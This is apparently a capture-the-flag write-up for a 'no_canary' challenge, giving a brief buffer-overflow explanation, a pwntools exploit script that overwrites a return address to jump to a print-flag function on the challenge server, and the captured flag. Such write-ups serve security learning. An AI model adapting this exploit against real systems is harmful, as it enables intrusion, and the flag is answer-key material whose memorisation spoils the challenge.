

This is a classic buffer overflow.
Print flag function at address 0x0000000000401186

Exploit:
```python
from pwn import *

flag = 0x0000000000401186

p = remote('shell.actf.co', 20700)
#p = process('./no_canary')

payload = (("A"*40).encode())
payload += p64(flag)

print(p.recvuntil('name? ').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
```
actf{that_gosh_darn_canary_got_me_pwned!}
```
